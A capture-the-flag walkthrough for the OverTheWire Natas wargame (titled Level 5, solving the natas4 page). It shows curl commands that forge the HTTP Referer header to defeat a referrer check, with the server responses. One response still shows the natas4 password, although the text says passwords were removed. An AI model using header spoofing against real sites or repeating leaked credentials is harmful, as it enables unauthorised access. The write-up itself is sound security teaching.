






# OverTheWire - Natas - Level 5

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas4` password in the previous challenge, it can be
used to log into http://natas4.natas.labs.overthewire.org:



## Initial Analysis

The web page instructions are:

> Access disallowed. You are visiting from "" while authorized users should come
> only from "http://natas5.natas.labs.overthewire.org/"

It appears that the web server is checking one of the HTTP headers for a
specific value. This does not really provide any security as the user is able to
change these headers. Try to figure out what header is being used.

## Approach Strategy

1. Use "Developer Tools" to look at the network traffic
1. Add HTTP headers to the requests to satisfy the web server check

## Step-by-Step Solution

Browsers have "Developer Tools" that can be used to troubleshoot problems that
happen on web sites. These tools can also be used to exploit security
vulnerabilities. These tools are also called the "F12 Tools" as the `F12` key is
used to run them:



Clicking the "Refresh page" link on the web page will re-send the network
requests for the page:



Two things happened here.

The first thing is that the description box on the page now has a new message:

> Access disallowed. You are visiting from
> "http://natas4.natas.labs.overthewire.org/index.php" while authorized users
> should come only from "http://natas5.natas.labs.overthewire.org/"

This is _very_ important and needs some explanation.

When a browser makes an HTTP request it sends a collection of headers. Each
header has a name and a value. In this instance, the header of interest is
called `Referer`. This header tells the web server which web page the request is
coming from.

When this challenge page was first loaded, it said _You are visiting from ""_.
That's because there was no referrer page. However, when clicking the "Refresh
page" link, the browser sends the current page URL as the referrer. The solution
to the challenge is probably to fake the `Referer` header to be from the site
"http://natas5.natas.labs.overthewire.org/".

The second thing that happened is that the `Network` tab in the Developer Tools
now lists the HTTP requests that were made. The first (highlighted) request is
for the `index.php` page itself. The other requests are for dependencies of the
web page. One type of dependency is Cascading Style Sheet (`.css`) files
defining page style such as fonts, colours, and layout. Another type of
dependency is JavaScript (`.js`) files that execute code in the browser to make
the web page interactive.

Clicking the highlighted request line for `index.php` displays its details, and
scrolling down into the `Request Headers` section shows the `Referer` header
(highlighted):



The next step is to alter the header. Right clicking the a request from the list
brings up the context menu and there is a `Edit and Resend` menu item:



This brings up an area that has the request and all its headers. The request can
be re-sent many times to see how the server responds:



Rats! For some reason Firefox does not allow the `Referer` to be changed. There
are still many ways to make the request, though.

The `curl` command is used to make HTTP requests. Compared to using a browser it
definitely has a learning curve, but it's an important tool to know. Starting
over using `curl` instead of the browser, the first task is to fetch to main
webpage:

```
$ curl http://natas4.natas.labs.overthewire.org/index.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.58 (Ubuntu) Server at natas4.natas.labs.overthewire.org Port 80</address>
</body></html>
```

The response is the HTML for a page that says that credentials need to be
supplied. The `-u` switch for `curl` can do this:

```
$ curl -u natas4:[REMOVED: NATAS4 PASSWORD] \
    http://natas4.natas.labs.overthewire.org/index.php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "[REMOVED: NATAS4 PASSWORD]" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Progress! The `natas4` password has of course been removed from the text above.
It still has the message that the visit is coming from `""`. Now to use the `-H`
flag to set the `Referer` header. This will double-check that the web server is
indeed looking for this header:

```
$ curl -u natas4:[REMOVED: NATAS4 PASSWORD] \
    -H 'Referer: foo' \
    http://natas4.natas.labs.overthewire.org/index.php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "foo" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

And now for the final request:

```
$ curl -u natas4:[REMOVED: NATAS4 PASSWORD] http://natas4.natas.labs.overthewire.org/index.php -H "Referer: http://natas5.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "[REMOVED: NATAS4 PASSWORD]" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is [REMOVED: NATAS5 PASSWORD]
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

There it is: `Access granted` and the `natas5` password (removed).

## Key Takeaways

- HTTP requests contain headers that can be manipulated
- Browsers can resend requests but apparently some headers are off limits
- The `curl` command is a valuable tool, particularly if a group of requests
  need to be scripted
- Web servers should always be suspicious about any headers or data being sent
  by the user

## Beyond the Challenge

It's always a good idea to think about other solutions. While there are numerous
other tools that could be used to solve this challenge, `curl` is fairly common
and good to learn.
